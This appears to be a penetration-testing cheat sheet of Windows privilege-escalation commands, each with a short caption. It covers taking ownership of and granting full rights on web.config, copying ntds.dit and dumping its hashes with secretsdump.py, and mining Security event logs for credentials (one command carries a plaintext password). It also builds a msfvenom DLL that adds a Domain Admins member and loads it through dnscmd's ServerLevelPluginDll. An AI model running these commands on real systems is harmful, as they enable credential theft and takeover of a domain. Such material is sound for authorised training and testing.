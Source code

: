 `takeown /f C:\backups\wwwroot\web.config`

> Taking ownership of a file

`Get-ChildItem -Path ‘C:\backups\wwwroot\web.config’ | select name,directory, @{Name=“Owner”;Expression={(Ge t-ACL $_.Fullname).Owner}}`

> Confirming changed ownership of a file

`icacls “C:\backups\wwwroot\web.config” /grant lafi:F`

> Modifying a file ACL

`secretsdump.py -ntds ntds.dit -system SYSTEM -hashes lmhash:nthash LOCAL`

> Extract hashes with secretsdump.py

`robocopy /B E:\Windows\NTDS .\ntds ntds.dit`

> Copy files with ROBOCOPY

`wevtutil qe Security /rd:true /f:text | Select-String "/user"`

> Searching security event logs

`wevtutil qe Security /rd:true /f:text /r:share01 /u:julie.clay /p:Welcome1 | findstr "/user"`

> Passing credentials to wevtutil

`Get-WinEvent -LogName security | where { $_.ID -eq 4688 -and $_.Properties[8].Value -like '*/user*' } | Select-Object @{name='CommandLine';expression={ $_.Properties[8].Value }}`

> Searching event logs with PowerShell

`msfvenom -p windows/x64/exec cmd='net group "domain admins" netadm /add /domain' -f dll -o adduser.dll`

> Generate malicious DLL

`dnscmd.exe /config /serverlevelplugindll adduser.dll`

> Loading a custom DLL with dnscmd

`wmic useraccount where name="netadm" get sid`

> Finding a user's SID

`sc.exe sdshow DNS`

> Checking permissions on DNS service

`sc stop dns`

> Stopping a service

`sc start dns`

> Starting a service

`reg query \\10.129.43.9\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters`

> Querying a registry key

`reg delete \\10.129.43.9\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters /v ServerLevelPluginDll`
